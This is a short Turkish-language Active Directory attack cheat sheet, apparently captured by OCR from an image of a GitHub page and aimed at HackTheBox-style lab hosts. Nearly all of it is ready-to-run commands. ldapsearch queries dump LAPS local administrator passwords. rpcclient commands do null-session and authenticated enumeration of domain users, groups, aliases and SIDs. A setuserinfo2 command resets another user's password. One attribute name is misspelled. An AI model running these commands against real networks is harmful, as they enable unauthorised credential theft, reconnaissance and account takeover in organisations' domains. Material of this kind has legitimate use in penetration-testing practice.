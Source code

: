 ### LDAP ile Şifre Düşürme:
```bash
ldapsearch -x -h forest.htb.local -b 'DC=HTB,DC=LOCAL' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
ldapsearch -x -h 10.10.10.254 -D <> -w <> -b "dc=AJLAB,dc=COM" "(ms-MCS-AdmPwd=*)" ms-MSC-AdmPwd
```

## Etki Alanı Keşfi RPCClient Kullanarak

### Null Oturum Kullanarak:
```bash
rpcclient -U "" 10.10.10.10
```

### Kullanıcı Olarak Giriş Yapma:
```bash
rpcclient -U USERNAME //10.10.10.10
```

### Etki Alanı Kullanıcılarını Bulma:
```bash
rpcclient -Uuser_Name%PASSWORD -c enumdomusers 10.10.10.10
```

### Etki Alanı Bilgilerini Bulma:
```bash
rpcclient -Uuser_Name%PASSWORD -c querydominfo 10.10.10.10
```

### Gruplar ve Takma Adları Bulma:
```bash
rpcclient -Uuser_Name%PASSWORD -c "enumalsgroups builtin" 10.10.10.10
```

### Alias Kullanarak Ek Bilgi Bulma:
```bash
rpcclient -Uuser_Name%PASSWORD -c "queryaliasmem builtin 0x244" 10.10.10.10
```

### SID’leri Kullanarak Bilgi Bulma:
```bash
rpcclient $> lookupsids S-1-5-21-586154515854-343543654-8743952433-1105
```

### Diğer Kullanıcıların Şifrelerini Sıfırlama:
```bash
rpcclient -U user1 //10.10.10.10 setuserinfo2 USER2 23 'PASSWORD'
```

## RPCClient Kullanarak Keşif

### Etki Alanı Kullanıcılarını Listeleme:
```bash
enumdomusers
```

